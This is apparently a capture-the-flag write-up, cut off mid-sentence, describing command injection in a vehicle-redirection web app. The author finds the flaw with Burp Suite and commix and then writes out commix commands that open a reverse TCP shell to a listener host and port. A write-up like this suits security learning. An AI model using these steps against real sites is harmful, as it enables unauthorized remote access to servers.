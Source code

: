 

We are given a website with a vehicle redirection function

![](https://i.imgur.com/Kiuqe0S.png)



Testing out the Functionality of the website i decided to alter the behavior of **ALG** since it was the only one in parked as shown in the last image

![](https://i.imgur.com/Kr2zaag.png)

Great, Now let test for Command Injection vulnerability, we are given 3 areas making it pretty hard to find, so i decided to use burpsuite to intercept the request


![](https://i.imgur.com/MQkpKvK.png)

Nice, we have 3 parameters which is `plate` , `posx` and `posy`, we can use a tool called `commix` to test out for command injection efficiently and faster

![](https://i.imgur.com/v94cy3d.jpg)
 
You should notice that i used only `posy` for the `--data` switch instead of "`plate=ASH&posx=200&posy=300`" , i had run the scan with level=3 making it really slow, so that was the parameter i found out, was injectable.

We can then pop-up a **pseudo-terminal** shell and then from there get a reverse shell with PHP since that is the web technology been used

![](https://i.imgur.com/0HWZQOq.jpg)


## **Bonus**

### **Getting a reverse shell**

I was finding it difficult to get a reverse shell using `commix` but here is how i went about it, you can type in this on commix command line

```bash
# start the reverse tcp session
commix(os_shell) > reverse_tcp

# set LHOST and LPORT
commix(reverse_tcp) > set LHOST 192.168.0.157
LHOST => 192.168.0.157
commix(reverse_tcp) > set LPORT 1234
LPORT => 1234
```

Depending on our target we would select what type of reverse shell w
